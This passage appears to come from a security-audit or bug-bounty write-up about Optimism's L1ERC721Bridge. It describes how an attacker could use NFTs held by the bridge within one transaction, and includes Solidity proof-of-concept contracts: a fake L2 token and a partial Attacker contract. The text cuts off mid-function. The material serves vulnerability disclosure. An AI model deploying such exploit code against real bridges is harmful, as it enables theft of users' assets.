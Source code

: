 Optimism's internal system could allow an attacker to use any `ERC721Callback` NFT on the balance of `L1ERC721Bridge` within a single transaction.
Also, given that the `deposits` variable is public, there may be a vulnerability in external services that would rely on it.

Algorithm for unauthorized use of NFT:
1. Create a transaction through `L2ERC721Bridge` to withdraw fake NFT from L2. In it, use a fake `_localToken`. Since the verification of the arguments entered in the bridge occurs at L1, the transaction will succeed.
A possible contract `_localToken`:
- `L1Token` corresponds to the contract on L1 being attacked
- `tokenId` corresponds to the ID of the NFT we want to get on L1
```solidity
contract AttackerL2ERC721 is OptimismMintableERC721 {
    constructor(
        address L2Bridge,
        address L1Token,
        uint256 tokenId
    ) OptimismMintableERC721(L2Bridge, 1, L1Token, "L2Token", "L2T") {
        _mint(msg.sender, tokenId);
    }
}
```
2. This is the end of the work with L2. Next, we verify the transaction on `OptimismPortal` and wait for the finalization period.
3. Using the following contract, we start the attack:
- The `__tx` in the constructor is our transaction from the previous steps
- The `_localToken` is the victim contract `ERC721Callback`
- The `_remoteToken` is the contract from the first step
```solidity
contract Attacker is ISomeCommonContract, IERC721Receiver, ERC165 {
    OptimismPortal internal portal;
    ERC721Callback internal localToken;
    address internal remoteToken;
    L1ERC721Bridge internal bridge;
    Types.WithdrawalTransaction _tx;

    constructor(
        OptimismPortal _portal,
        ERC721Callback _localToken,
        address _remoteToken,
        L1ERC721Bridge _bridge
    ) {
        portal = _portal;
        localToken = _localToken;
        remoteToken = _remoteToken;
        bridge = _bridge;
    }

    function start(uint256 tokenId, Types.WithdrawalTransaction memory __tx) public {
        _tx = __tx;

        bridge.bridgeERC721To(
            address(localToken),
            remoteToken,
            address(this),
            tokenId,
            1234,
            hex""
        );
    }

    // The function that will be called before token transfer.
    function onERC721Transfer(
        address,
```